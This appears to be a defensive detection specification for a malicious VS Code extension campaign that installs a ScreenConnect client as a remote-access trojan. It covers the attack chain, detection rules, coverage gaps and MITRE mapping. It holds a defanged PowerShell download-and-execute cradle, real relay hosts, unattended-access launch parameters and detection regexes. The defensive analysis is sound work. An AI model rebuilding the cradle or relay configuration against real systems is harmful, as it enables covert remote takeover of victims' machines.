

# snowshono Detection Spec — BYOSC / ScreenConnect RMM-as-RAT

> The **Stage-3 companion** to [`kagema-detection-spec.md`](kagema-detection-spec.md).
> kagema reasons about the `ShowSnowcrypto.SnowShoNo` **extension** (Stage 1 — the
> typosquat dropper + hidden-PowerShell `irm | iex` cradle, convicted by `s11`).
> This spec reasons about the **payload that cradle ultimately drops**: a
> legitimately code-signed **ScreenConnect (ConnectWise Control)** client
> configured to call back to an attacker relay — the *bring-your-own-ScreenConnect*
> (**BYOSC**) RMM-as-RAT pattern (MITRE **T1219**, Remote Access Software). New
> signal family: **RMM** (remote-access-software abuse). Maps onto ExTrace's real
> rule layers via [`architecture-reconciliation.md`](architecture-reconciliation.md).
>
> ⛔ **Safety — these are REAL, observed, malicious IOCs (not synthetic).** No
> `snowshono` sample — extension, PowerShell stage, or the 13 MB
> `ScreenConnect.ClientSetup.msi` — is ever downloaded into this repo or onto the
> host. The binary was **never opened**; everything here is hash-pivot + public
> threat-intel attribution. Every IOC below is **defanged** and **reference-only**
> (attribution + regression anchors, per the [README](README.md) safety section) —
> never a fetch or execute instruction. The Stage-2 C2 `niggboo[.]com` was already
> on the shipped blacklist (kagema/snowshono downloader host); the **multi-source
> Stage-3 relay (`year000001[.]com` + the bare IP `144[.]172[.]103[.]247`) is now
> on the s4/a7 denylist** too (§8), alongside the related-campaign BYOSC C2s. The
> **MSI / extension SHA-256 hashes stay reference-only** (ExTrace has no in-pipeline
> hash rule). The durable signal remains the *relay configuration shape* (the `s20`
> rule), not the host — the denylist entries harden coverage of known, rotating
> infrastructure but are not the primary detection. Rule logic carries **no** real
> IOC literal (`s20` is behaviour-based; the hosts live only in the data denylist
> file matched by `s4`/`a7`); the synthetic `s20` test fixtures use RFC 5737 /
> RFC 2606 placeholders.
>
> 🔒 **Why the denylisted hosts can never reach the dev environment.** The denylist
> is **inert**: its loader
> ([`domain_indicators.py`](../../packages/analysis_contracts/domain_indicators.py))
> only reads the file and string-matches it — no resolver, no DNS, no HTTP, so a
> real host listed there is never contacted. The one toolchain step that issues live
> requests, `markdown-link-check`, is configured
> ([`.mlc_config.json`](../../.mlc_config.json) `ignorePatterns`) to **skip every
> real IOC host**, and IOCs in docs are defanged + fenced so none ever appears as a
> live `scheme://` URL. A guard test
> ([`tests/security/test_ioc_safety.py`](../../tests/security/test_ioc_safety.py))
> pins all three properties — loader stays network-free, every denylisted IOC has a
> link-check ignore, no doc carries a live IOC URL — so a future edit cannot
> regress them.

## 0. Provenance (read-only, attribution only)

| Field | Value |
|---|---|
| Upstream | `trailofbits/vsix-zoo` → `samples/snowshono/snowshono-msi/` |
| Campaign | SnowShoNo · **Family:** ScreenConnect (RMM-as-RAT) · rat / remote-access / persistence |
| Stage 1 (extension) | `ShowSnowcrypto.SnowShoNo` v0.6.0 — the kagema dropper (see that spec) |
| Stage 2 (fileless) | `irm hxxps://niggboo[.]com/aaa \| iex` — hidden PowerShell download-execute |
| Stage 3 (this payload) | `ScreenConnect.ClientSetup.msi` (13 MB, legit-signed ConnectWise RMM) |
| Origin enrichment | MalwareBazaar (abuse.ch) hash pivot + VirusTotal Relations + public DFIR |
| Analysis method | Binary **NOT** opened / executed — hash-based public-intel pivot only |

The detection target ExTrace can actually scan is the **extension text**, not the
dropped MSI binary. Stage 1 is already convicted by `s11` (the PowerShell cradle);
this spec adds the rule for the BYOSC variants that **embed the ScreenConnect
relay-install reference directly in the extension** (`s20`), and documents — honestly
— the two things ExTrace *cannot* see without new capabilities (the MSI's embedded
`System.config`, and the Windows-only runtime).

## 1. Attack chain (3 stages)



**Stage 1 → 2** is the kagema cradle (already `s11` CRITICAL → BLOCK). **Stage 3**
is the new surface this spec covers.

## 2. How BYOSC / ScreenConnect-as-RAT works (the detailed mechanics)

What a defender needs to understand about *why this evades the usual controls*:

- **It is a legitimate, code-signed RMM tool.** ScreenConnect (ConnectWise Control)
  is a real, widely-deployed remote-management product. The attacker writes **no
  malware** — they take the signed vendor client and *configure* it to connect to
  **their own relay** for **unattended** remote control. AV / reputation engines see
  a valid signature and a known-good product and let it through. Many enterprises
  *allowlist* RMM tools, so the malicious client blends into "legitimate
  remote-administration activity."

- **The malice lives in the configuration, not the binary.** On install, the MSI
  drops a `System.config` carrying the connection parameters. The client reads them
  and dials the operator's relay:

  | Param | Meaning | Detection value |
  |---|---|---|
  | `h=` | relay / host (the C2 address) | **highest** — attacker infrastructure |
  | `p=` | port (legit relay default 8041; observed abuse: 8040 / 8041 / 4444) | non-standard port = signal |
  | `s=` | session GUID / instance id | campaign correlation |
  | `k=` | security key (RSA public-key blob) — binds the client to that server | instance fingerprint |
  | `e=Access` `y=Guest` | **unattended** access as guest | the silent-persistent-control marker |

  The distinguishing line is **`e=Access` (unattended) vs `e=Support` (attended)**.
  A benign remote-support session is attended and short-lived; `e=Access&y=Guest` is
  silent, persistent, unattended takeover. That single parameter is what separates a
  BYOSC RAT install from a legitimate support pairing.

- **Hash rotation kills signature/hash detection.** The `.msi` filename and hash
  change every build; ConnectWise leaves nothing stable to match. VirusTotal
  Relations confirms the thesis concretely: a **single relay** is associated with
  **≥ 3 distinct MSI hashes** (sibling samples, same `h=`). A hash blocklist cannot
  catch this; a **config/relay-centric** detection can. This is the textbook "hash
  is dead, behaviour + config is durable" argument, made on real infrastructure.

- **Persistence + process tree (Windows runtime).** `msiexec` installs a service
  `ScreenConnect Client (<16-hex InstanceID>)` (`StartType=2`, auto-start →
  persistence) → `ScreenConnect.ClientService.exe` spawns `ScreenConnect.WindowsClient.exe`
  ×2 (one user, one SYSTEM) and runs remote commands via
  `powershell.exe -NoProfile -NonInteractive -ExecutionPolicy Unrestricted <random>.ps1`.
  The relay traffic is encrypted and chunked.

- **Sandbox evasion.** The MSI has been observed querying `Win32_Bios` /
  `Win32_BaseBoard` via WMI (a common VM/sandbox check), so dynamic analysis can be
  detected and the payload kept dormant.

## 3. Signal catalog (RMM family)

FP semantics as in the sibling specs: *high FP alone, strongest as a conjunction.*

| # | Signal | Evidence | Base sev | FP risk | Note |
|---|---|---|---|---|---|
| **RMM1** | remote-access client reference | `ScreenConnect` / `ConnectWise Control` / `ClientSetup.msi` / `.WindowsClient` / `.ClientService` | LOW | high | a remote-support extension may reference it legitimately |
| **RMM2** | unattended-access launch params | `e=Access` ∧ `y=Guest` | HIGH | low | the silent-persistent-control marker |
| **RMM3** | relay connection string | `&s=<session>` … `&k=<key>` / `&h=<relay>&p=<port>` | MEDIUM | low-med | the launch/`System.config` shape |
| **RMM4** | **CONJUNCTION (the invariant):** RMM1 ∧ (RMM2 ∨ RMM3), one file | client ref × unattended-relay config | **HIGH** | very low | §4 — the conviction |
| **RMM5** | non-ConnectWise relay (booster) | relay host is a **bare IPv4**, not `*.screenconnect.com` | — | low | confidence raiser on RMM4, never a gate |

## 4. As-built: signal → layer → rule → status

ExTrace has three rule layers (reconciliation §1). The BYOSC class lands as:

| Signal | Layer | Rule id | Status |
|---|---|---|---|
| Stage-1 cradle (DR5) — fetches the MSI indirectly | in-house static | [`extrace.s11.download_cradle`](../../static_runtime/rules/s11_download_cradle.py) | ✅ pre-existing — **CRITICAL → BLOCK** (kagema spec) |
| RMM4 conjunction — embedded BYOSC relay-install | in-house static | [`extrace.s20.rmm_remote_access`](../../static_runtime/rules/s20_rmm_remote_access.py) | ✅ **NEW — HIGH / WARN** (HIGH confidence on RMM5 bare-IP relay) |
| Stage-3 MSI embedded `System.config` (h/p/s/k extract) | MSI static parser | *not built* | ⬜ **deferred** — §6 (needs an MSI parser; binary never opened) |
| Stage-3 runtime process tree / service / relay egress | dynamic (Windows) | *not built* | ⬜ **deferred** — §5 (Linux sandbox is blind; needs a Windows node) |

`s20` is the genuinely-new in-pipeline conviction. It requires **RMM1 ∧ (RMM2 ∨
RMM3) in one file**, so a benign product mention or an unrelated query string never
fires alone — the same conjunction discipline as `s11` / `s18`. It covers the
variant that **embeds the install reference in the extension text** (the shape the
sibling BYOSC campaigns TheseVibesAreOff / ClawdBot ship verbatim). The `snowshono`
variant that pulls the MSI *indirectly* through the PowerShell cradle is already
convicted by `s11` — the two are **complementary**: `s11` = the indirect cradle,
`s20` = the embedded BYOSC install.

### 4.1 Why HIGH / WARN, not CRITICAL / BLOCK

The `s18` precedent, not the `s10`/`s11` one. A hidden `powershell … | iex` cradle
has **no** benign cousin → CRITICAL. RMM abuse *does* have a conceivable legitimate
cousin: an official RMM-vendor or remote-support extension. Auto-blocking that
before the sandbox would be a trust-destroying false positive, so `s20` **surfaces
the BYOSC capability for review** instead of convicting. It is **not** in
`_PROMOTED_HIGH_BLOCKERS` (which holds only `s2.typosquat`). The **RMM5 bare-IP
relay** booster sharpens the verdict without gating it: a raw-IP relay is the
textbook BYOSC tell (legitimate ConnectWise uses a named `*.screenconnect.com`
relay), so confidence is **HIGH** there and **MEDIUM** for a named relay. No
taxonomy / contract / gate-policy / `schema_version` change; `s20` is class-less.

## 5. Coverage reality check — the OS gap (honest)

This sample **inverts** the usual static/dynamic story even harder than kagema.
The whole Stage-1→3 chain is **Windows-only** (`process.platform === "win32"` guard;
the MSI is a Windows installer). ExTrace's dynamic sandbox is **Linux** (Xvfb +
headless VS Code), so:

- the extension's payload branch **never executes** in the Linux sandbox — no
  PowerShell, no `msiexec`, no relay egress is observed;
- a naïve sandbox run would come back "clean" — the **most dangerous false
  negative**. ExTrace must never conflate *"did not trigger on Linux"* with
  *"benign"*.

So for this family the **static layer is load-bearing** (`s11` Stage-1, `s20`
Stage-3-embedded), exactly as kagema §6 argues. The architectural fix —
**OS-aware routing** (detect the platform guard / `engines.os`, route to a Windows
node or emit `dynamic_coverage: not-applicable (windows-only)` rather than a silent
clean) — is a **deferred roadmap item**, the same `win32`-gate dynamic-skip note
kagema §6 records. Even on a Windows node, the chain is spawn-heavy
(`msiexec → ClientService → WindowsClient ×2 + powershell child`), so full
process-tree capture (ETW/Sysmon EID 1, the Windows analogue of `strace -f`
follow-fork) would be required — the same lesson as nf3xn §5.

## 6. Evasion — what holds, what slips (deferred work)

- **Caught (`s20`):** an extension that embeds a ScreenConnect relay-install
  reference — install URL or `&h=/&p=/&s=/&k=` / `e=Access&y=Guest` config — in its
  text. Bare-IP relay raises confidence.
- **Caught (`s11`):** the indirect `irm | iex` cradle that fetches the MSI.
- **Slips `s20` — deferred capabilities:**
  - **MSI `System.config` extraction.** When the relay config lives only in the
    *dropped MSI binary* (never in the extension text), `s20`'s text scan cannot see
    it. Extracting `h/p/s/k` from the MSI Property / ServiceInstall tables +
    embedded `System.config` needs an **MSI static parser** (`msitools`/`msidump`
    class, run inside the sandbox, **without executing** the binary). This is the
    single highest-value deferred capability for BYOSC — but the binary is **never
    opened in this repo**, so it is documented, not built.
  - **Windows dynamic node + OS-aware routing** — §5.
  - **Full host classification** (RMM5). `s20` boosts on a *bare-IPv4* relay; the
    complementary half — "host ∉ `*.screenconnect.com`" for a *named* malicious
    relay — needs host parsing/allowlisting and is left as a refinement.
  - **Obfuscation / indirection.** A relay reference built by string concatenation,
    encoding, or fetched at runtime defeats the text regex → left to the (Windows)
    dynamic plane.
  - **LOLBin / RMM diversification.** `s20` anchors on ScreenConnect/ConnectWise
    (the dominant BYOSC family with a distinctive connection string). Other RMM
    tools (AnyDesk, TeamViewer, Atera, …) are a documented extension point, kept off
    a WARN rule until each has a comparably low-FP config anchor.

## 7. Adversary-class mapping (ADR 0002)

| Signal family | Adversary class | Rationale |
|---|---|---|
| RMM1–RMM5 (BYOSC relay install) | **A4 — Remote-loader / RMM-as-RAT** | The extension deploys the real remote-access payload (a configured RMM client) at/after runtime, bypassing static analysis of a custom binary — the remote-loader class, here delivering a legit-signed RMM. `s20` detects it but stays **class-less** (static-IOC convention); A4 is the conceptual attribution, recorded here because the Windows-only-MSI family leaves the Linux dynamic plane that would carry A4 blind (§5). |
| Stage-1 cradle | **A4** | Same class, the kagema half (spec §7). |

## 8. IOC / signal appendix (defanged — REAL infrastructure, reference-only)

> Every entry is **defanged** and **reference-only** (attribution + regression
> anchor). The **host IOCs (relay IP + domains) are now on the s4/a7 denylist**
> ([`blacklist_domains.txt`](../../packages/analysis_contracts/data/blacklist_domains.txt));
> the **SHA-256 hashes stay reference-only** (no in-pipeline hash rule). Rule logic
> carries no literal from this list — `s20` is behaviour-based, and the denylist is a
> separate data file matched by `s4`/`a7`. The durable signal remains the relay-config
> *shape* (RMM4), not the host.

```text
# Stage 1 / 2 (already covered — kagema spec)
extension SHA256 : 2cdaee2863396e558f17503ad290163d513acbc3c2ca2dbfa6852c2e064ca9f1
stage2 C2        : niggboo[.]com   (single-source ToB manifest; on s4/a7 blacklist)
stage2 one-liner : irm hxxps://niggboo[.]com/aaa | iex

# Stage 3 — ScreenConnect MSI (this payload). Host IOCs -> ON the s4/a7 denylist;
# SHA-256 -> reference-only (no in-pipeline hash rule).
MSI SHA256       : 290027e4e32cf4983ccaa9811b3090c7397a3711d23e426ab144bec1167c456b   # reference-only
relay (h=)       : 144[.]172[.]103[.]247          # bare IP — RMM5 tell — DENYLISTED (s4/a7)
relay domain     : relay[.]year000001[.]com       # VT passive DNS (multi-source); year000001.com DENYLISTED
relay port (p=)  : 8041                            # ScreenConnect relay default
InstanceID (s=)  : 4fa6deb55b683867                # 16-hex → service name / install path
ProductVersion   : 25.4.3.9287
service name     : ScreenConnect Client (4fa6deb55b683867)   # EID 7045 / disk artifact
launch params    : ...&p=8041&s=4fa6deb55b683867&k=BgIAAACkAAB...&e=Access&y=Guest

# Related BYOSC campaigns (NOT snowshono) — vendor-reported; registrable domains
# DENYLISTED (s4/a7) for same-TTP coverage (suffix match covers the subdomains):
TheseVibesAreOff : meow[.]undefined21[.]com:8040 / c[.]undefined21[.]com:4444 (Checkmarx)  # undefined21.com
ClawdBot         : meeting[.]bulletmailer[.]net:8041 (Aikido/SOCprime)                      # bulletmailer.net
Forcepoint       : dof-connect[.]top (Forcepoint ScreenConnect campaign)                   # dof-connect.top

# Durable behavioural signal (primary — what the rule actually keys on)
RMM4 : (ScreenConnect|ConnectWise Control|ClientSetup.msi|.WindowsClient|.ClientService)
       ∧ ( e=Access ∧ y=Guest  |  &s=<session>…&k=<key>  |  &h=<relay>&p=<port> )   # one file
RMM5 : relay host is a bare IPv4 (://<ip> or h=<ip>), not *.screenconnect.com       # confidence booster
```

Synthetic test inputs (RFC 5737 TEST-NET IPs, RFC 2606 `*.example.com`, never the
real relay) live in
[`tests/static_runtime/test_s20_rmm_remote_access.py`](../../tests/static_runtime/test_s20_rmm_remote_access.py)
— never in rule logic (rules are general-purpose scanners, not snowshono
signatures).

## 9. MITRE ATT&CK coverage

| Technique | Name | In chain | ExTrace rule |
|---|---|---|---|
| T1059.001 | PowerShell | Stage 2 `irm \| iex` | `s11` (+ Windows dynamic, deferred) |
| T1105 | Ingress Tool Transfer | Stage 2→3 MSI download | `s11` |
| **T1219** | **Remote Access Software (RMM/SC)** | **Stage 3 BYOSC client** | **`s20`** (embedded) / MSI parser (deferred) |
| T1543.003 | Create/Modify System Process: Service | `ScreenConnect Client (…)` auto-start | dynamic (Windows, deferred) |
| T1480 | Execution Guardrails | `win32` platform guard | §5 (OS-routing, deferred) |
| T1497 | Virtualization/Sandbox Evasion | WMI BIOS/BaseBoard VM check | dynamic (sandbox-hardening, deferred) |
| T1553 | Subvert Trust Controls | revoked-cert / MotW stripping | host-level — out of ExTrace scope (noted) |

## 10. Deferred / not built (backlog)

- **MSI static config parser** (`System.config` h/p/s/k extraction, no execution) —
  the highest-value BYOSC capability; needs an MSI parser and is gated on **not**
  opening the binary in this repo (§6).
- **Windows dynamic node + OS-aware routing** (`dynamic_coverage` verdict field) —
  §5; the architectural fix for the Linux-blind gap, shared with kagema.
- **Full relay host classification** (RMM5's "named non-ConnectWise relay" half) —
  §6.
- **RMM diversification** (AnyDesk / TeamViewer / Atera config anchors) — §6.
